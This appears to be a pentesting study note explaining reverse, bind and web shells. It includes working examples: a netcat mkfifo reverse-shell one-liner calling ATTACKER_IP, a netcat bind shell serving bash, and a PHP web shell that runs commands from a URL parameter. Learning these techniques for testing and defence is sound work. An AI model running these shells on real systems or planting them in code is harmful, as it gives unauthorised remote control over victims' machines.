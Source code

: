 # Shells Overview in Cybersecurity / Pentesting

## 1. Reverse Shell

**Definition:** A reverse shell connects from the victim's machine back to the attacker's machine.

**How it works:**

* Attacker sets up a listener on their machine.
* Victim machine initiates a connection to the attacker's listener.

**Use case:** Useful when the victim is behind a firewall or NAT that blocks incoming connections.

**Example (Bash):**

```bash
# Start a listener on the attacker machine
nc -lnvp ATTACKER_PORT

# Connect to the listener
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

---

## 📗 2. Bind Shell

**Definition:** A bind shell opens a port on the victim’s machine and listens for incoming connections from the attacker.

**How it works:**

* Victim sets up a listener on their system.
* Attacker connects to the open port on the victim.

**Use case:** Simple but can be blocked by firewalls due to open ports on the target.

**Example (Netcat):**

```bash
# On victim:
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

# On attacker:
nc VICTIM_IP PORT
```

* Listening on a port below 1024 requires root priviliges.

---

## 3. Web Shell

**Definition:** A script placed on a web server that allows command execution via a web interface.

**Common types:** PHP, ASP, JSP

**Use case:** After uploading malicious files via file upload vulnerabilities.

**Example (PHP):**

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

Access via: `http://target.com/shell.php?cmd=whoami`
